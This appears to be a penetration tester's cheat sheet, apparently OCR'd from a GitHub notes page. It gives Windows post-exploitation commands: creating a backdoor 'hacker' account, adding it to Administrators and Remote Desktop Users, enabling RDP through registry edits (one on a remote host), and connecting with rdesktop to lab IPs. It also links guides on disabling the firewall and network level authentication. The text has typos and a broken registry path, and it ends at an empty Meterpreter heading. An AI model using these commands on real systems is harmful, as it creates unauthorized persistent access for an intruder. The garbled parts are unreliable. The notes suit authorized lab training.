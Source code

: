 net user hacker Passw0rd123! /add

net user joe Passw0rd123! /add

#### Create a new local (to the victim) user called ‘hacker’ with the password of ‘hacker’

net localgroup administrators /add hacker

Or

net localgroup administrators hacker /add

net localgroup administrators joe /add

#### add user to remote desktop users

NET LOCALGROUP "Remote Desktop Users" hacker /ADD

#### delete users

net user hacker /delete


### rdesktop

rdesktop -u hacker -p Passw0rd123! 10.11.1.31

rdesktop -u hacker -p Passw0rd123! 10.11.1.49


#### allow RDP from command line

http://www.hacking-tutorial.com/tips-and-trick/how-to-enable-remote-desktop-using-command-prompt/

reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f 

Reg add “\\bethany\HKLM\SYSTEM\CurentControlSet\Control\Terminal Server”  /v fDenyTSConnections /t REG_DWORD /d 0 /f

NET LOCALGROUP "Remote Desktop Users" domain\jscott /ADD This would add the domain 

user domian\jscott to the local group Remote Desktop Users. If you'd like to add a non-domain user, simply leave off the domain 

prefix:mak

#### new remote deskop firewall disable commands

https://support.microsoft.com/en-us/help/947709/how-to-use-the-netsh-advfirewall-firewall-context-instead-of-the-netsh-firewall-context-to-control-windows-firewall-behavior-in-windows-server-2008-and-in-windows-vista

diable network level authentication with powershell ** watch out for """ ticks in scripts here

https://www.petri.com/disable-remote-desktop-network-level-authentication-using-powershell


#### Metepreter to cmd on windows
